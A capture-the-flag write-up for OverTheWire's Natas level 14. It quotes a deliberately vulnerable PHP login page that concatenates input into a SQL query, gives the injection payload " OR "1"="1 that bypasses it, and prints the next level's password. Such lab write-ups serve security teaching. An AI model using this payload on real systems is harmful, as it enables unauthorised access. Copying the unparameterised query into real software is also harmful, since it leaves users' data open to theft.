 # Writeup level 14
We have a login form as the start page with the input fields username and password.

**Source Code**

```
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```

This looks like a simple **SQL-Injection**. We can see that the query is getting concatenated with our input. So we can easily inject our own SQL statement since there is nothing protecting it. Also we have a debug option which we can use to see how our query looks like.

**Exploit**  
In this case we can simply use **natas15** as the **username** and our password is going to be the injection point.  
By using: **" OR "1"="1 **as the **password** we can turn the condition to true without knowing the password.  
Query that gets executed:  
```sql
SELECT * from users where username="natas15" and password="" OR "1"="1"
```

The password is:  
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

